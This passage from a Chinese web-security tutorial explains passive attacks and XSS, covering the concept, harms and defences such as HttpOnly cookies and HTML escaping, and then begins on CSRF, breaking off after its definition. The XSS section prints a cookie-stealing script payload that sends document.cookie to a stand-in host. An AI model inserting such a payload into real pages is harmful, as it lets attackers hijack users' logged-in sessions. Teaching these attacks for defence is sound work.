 ### 被动攻击
- 设下圈套，让用户发送有攻击代码的 HTTP 请求，那么用户发送了该 HTTP 请求之后就会泄露 Cookie 等个人信息
- 具有代表性的有跨站脚本攻击(XSS)和跨站请求伪造(CSRF)

## 跨站脚本攻击---XSS

### 1. 概念

`跨站脚本攻击（Cross-Site Scripting, XSS）`，可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```text-html-basic
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。**如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了**。

### 2. 危害

- 窃取用户的 Cookie 值
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### 3. 防范手段

**（一）设置 Cookie 为 HttpOnly**

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 `document.cookie` 获取用户 Cookie 信息。

**（二）过滤特殊字符**

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

许多语言都提供了对 HTML 的过滤：

PHP 的 `htmlentities() 或是 htmlspecialchars()`
Python 的 `cgi.escape()`
Java 的 `xssprotect (Open Source Library)`
Node.js 的 `node-validator`

## 跨站请求伪造---CSRF

### 1\. 概念

`跨站请求伪造（Cross-site request forgery，CSRF）`，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个**自己曾经认证过的网站**并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。

由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 Web 中用户身份验证的一个漏洞：**简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的**。
